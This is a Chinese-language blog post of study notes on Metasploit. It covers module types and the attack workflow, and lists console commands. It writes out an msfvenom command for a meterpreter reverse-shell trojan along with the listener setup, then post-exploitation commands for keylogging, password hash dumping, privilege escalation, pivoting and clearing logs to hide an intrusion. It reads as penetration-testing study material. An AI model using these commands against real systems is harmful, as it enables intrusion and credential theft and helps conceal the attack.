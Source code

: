 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      MSF笔记（一）               # 标题 
subtitle:   回顾整理一下之前的学习笔记
date:       2020-03-30              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```


## 0x00 Matesploit简单认识：
> Metasploit框架是一个开源工具，方便用于渗透测试，具有很好的拓展性，一般我们在kali进行渗透测试的时候经常会用它，有一个标准的使用流程：
寻找攻击模块->选择漏洞的利用模块并且配置->如有需要使用编码模块中的一个编码技术绕过查杀->渗透攻击->后渗透

**模块学习：**
- 1.auxiliaries（辅助模块）：不会在测试者和目标主机之间建立访问，只负责执行扫描、嗅探、指纹识别等想相关功能以辅助渗透测试
- 2.exploit（渗透利用模块）：包含各种poc验证程序，各种攻击代码
- 3.payload（攻击载荷模块）：攻击载荷是指我们期望目标系统在被渗透攻击之后完成实际攻击功能的代码，我们在该模块可以自由的选择、传送和植入。攻击载荷也可能是简单的在目标操作系统上执行一些命令，如添加用户账号等、
- 4.post（后期渗透模块）：该模块主要用于在取得目标系统远程控制权之后，进行一系列的后渗透攻击动作，如获取敏感信息、实施跳板攻击等、
- 5.encoders（编码模块）：该模块在渗透测试中负责免杀，以防止被杀毒软件、防火墙、ids及类似的安全软件检测出来。

**渗透攻击步骤**
- 在使用msf渗透测试的时候，可以综合利用以上模块，对目标系统进行侦察并发动攻击，大致的不走如下所示：
- 1、扫描目标机系统，寻找可用漏洞
- 2、选择并配置一个漏洞利用模块
- 3、选择并配置一个攻击载荷模块
- 4、有必要的选择一个编码技术，用来绕过杀毒软件的查杀
- 5、exploit，进行渗透攻击
- msf发动攻击成功后会获取目标主机的shell，攻击机和目标机之间会建立一个shell连接，

**msf常用操作**
- search xxxx ：搜索xxxx攻击利用模块
- use xxxx：使用攻击模块
- 进入攻击模块之后：show options/payloads/targets/advanced/evasion/missing
- set/unset:设置参数、取消设置的参数
- run/exploit:auxiliary模块常用run，exploits模块常用exploit，攻击成功后拿到shell不会立马进入shell，而是以后台的进程存在。
- jobs/kill:在后台运行的job、kill某进程
- info/edit:获取模块的基本信息、编辑当前exploit模块的代码
- check/back：配置完成后，判断目标ip漏洞是否存在，只有少数模块存在check。back指的是返回上一层。
- 对于msf数据库的处理：db_status/db_connect/db_disconnect
- db_import /xx/xx/xx.xml:数据库导入   db_export -f xml /xx/xx/xx.xml数据库导出
- sessions 显示获得的shell连接会话 sessions -i id进入指定id的session

**获取meterpreter会话**
> meterpreter是msf的一个payload，目标执行之后我们会得到一个会话，和常见的shell类似，但是具备更加强大的功能，是执行后渗透的实施通道。
- **通过msfenvom 生成木马获取** 
- 1、常用命令：`msfenvom -p windows/x64/meterpreter_reverse_tcp lhost=本地ip lport=本地监听端口 -f exe -o ./re.exe
- 2、本地监听
-- use exploit/multi/handler
-- set payload windowx/x64/meterpreter_reverse_tcp
-- set lhost ip
-- set lport port
-- run
- 3、投放木马并执行，此时msf便会得到一个meterpreter会话
- **通过cmdshell升级成meterpreter**
-- 如果我们利用msf获得的是cmdshell，该机器适合进行后渗透的话，可以利用命令升级成meterpreter：`sessions -u id`
- **meterpreter常用命令**
- session命令：查看获得的会话，使用-i可以连接到指定id的meterpreter会话
- help/background:帮助信息、后台挂起
- linux命令
- shell：获取目标主机的远程命令行shell
- upload：上传文件到目标主机，ps：`upload re.exe C:\\windows\\system32\`
- download: 下载目标主机的文件到我们的主机上 ，ps：`download C:\\windows\\system32\\config.txt /root/`
- edit: 调用vi编辑器修改文件
- search：在目标机器上查找搜索文件，`ps: search -d c:\\ -f *.dll`
- portfwd :端口转发，`ps: portfwd add -l 1111 -p 8080 -r 192.168.250.176`将8080端口转发到1111端口
- getuid：查看meterpreter注入到目标主机的进程所属用户
- getpid：查看meterpreter注入到目标主机上的注入进程的进程号
- execute：执行命令：一般配合-H隐藏窗口来执行，-f 后面加上文件名。
- run getgui:-e开启远程桌面服务，添加账户为 -u username -p password
- getsystem：提权命令，获取系统最高权限
- keyscan：键盘记录：keyscan_start/keyscan_dump/keyscan_stop
- hashdump:获取系统账号密码
- route命令：路由相关命令，借助该命令我们可以进一步渗透内网，添加一条路由，然后借助当前机器作为跳板攻击内网的其他主机。
- clearev：入侵痕迹擦除，在渗透利用过程中难免留下日志等信息痕迹，所以最后要执行clearev命令后再逃跑。



